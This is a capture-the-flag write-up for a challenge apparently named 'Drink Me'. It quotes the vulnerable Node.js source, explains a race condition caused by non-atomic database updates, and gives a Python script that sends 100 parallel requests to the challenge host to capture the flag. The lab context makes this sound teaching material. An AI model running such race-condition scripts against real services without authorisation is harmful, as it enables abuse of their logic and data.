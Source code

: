 ```javascript
router.post('/api/useKey', AuthMiddleware, async (req, res) => {
	let aliceData = await db.getAliceData(req.data.alice);
	aliceData = await checkAlice(req, aliceData);
	if (aliceData.size < 16) return res.status(403).send("Too big!");
	let flag = fs.readFileSync('flag').toString();
	res.status(200).send(`You may enter! Your size is ${aliceData.size}. Flag: ${flag}`);
});
```

The only way to get that small is to drink the potion multiple times, since every time we drink it our size gets multiplied by 2:

```javascript
async makeSmall(alice) {
		return new Promise(async (resolve, reject) => {
			try {
				let stmt = await this.db.prepare('UPDATE wonderland SET size = size * 2 WHERE alice = ?');
				resolve(await stmt.get(alice));
			} catch(e) {
				reject(e);
			}
		});
	}
```

What can we do? Well, a closer inspection of the implementation reveals a concurrency bug: The different database statements are not protected by an atomic transaction.
In other words, if enough calls to `makeSmall` get through before the first call to `setShrinked` happens, Alice will be able to get much small than the API wants to allow.

To achieve this, we use the `grequests` library to send multiple async requests to `/api/drink`, hoping that enough execute the size statement before the first one executes the shrinking statement. 


Here's the script:

```python
import grequests
import requests

URL = "https://intent-drink-me.chals.io"

r = requests.get(f"{URL}/api/getsize")
print(f"Alice's size: {r.json()['size']}")
cookies = r.cookies

times = 100
print(f"Drinking {times} times in parallel")
grequests.map([grequests.post(f"{URL}/api/drink", cookies=cookies) for _ in range(times)])

r = requests.get(f"{URL}/api/getsize", cookies=cookies)
print(f"Alice's size: {r.json()['size']}")

r = requests.post(f"{URL}/api/usekey", cookies=cookies)
print(r.text)
```

Execute it a few times to get the flag:

```console
┌──(user@kali)-[/media/sf_CTFs/intent/Drink_Me]
└─$ python3 solve.py
Alice's size: 1
Drinking 100 times in parallel
Alice's size: 32
You may enter! Your size is 32. Flag: INTENT{wh47_a_cur10u5_f331ln9!}
```